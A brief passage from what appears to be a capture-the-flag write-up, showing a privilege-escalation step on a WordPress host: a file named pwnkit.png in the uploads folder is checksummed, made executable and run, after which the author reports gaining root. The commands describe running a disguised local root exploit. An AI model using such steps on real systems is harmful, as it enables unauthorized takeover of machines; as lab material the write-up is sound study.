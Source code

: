 Now let’s check verify the file intergrity:

```bash
cd /var/www/html/wp-content/uploads/2025/10/

md5sum pwnkit.png
```

![image.png]({{ site.baseurl }}/assets/pressed/image%2025.png)

Now let’s execute our exploit:

```bash
chmod +x pwnkit.png

./pwnkit.png
```

![image.png]({{ site.baseurl }}/assets/pressed/image%2026.png)

We are now root.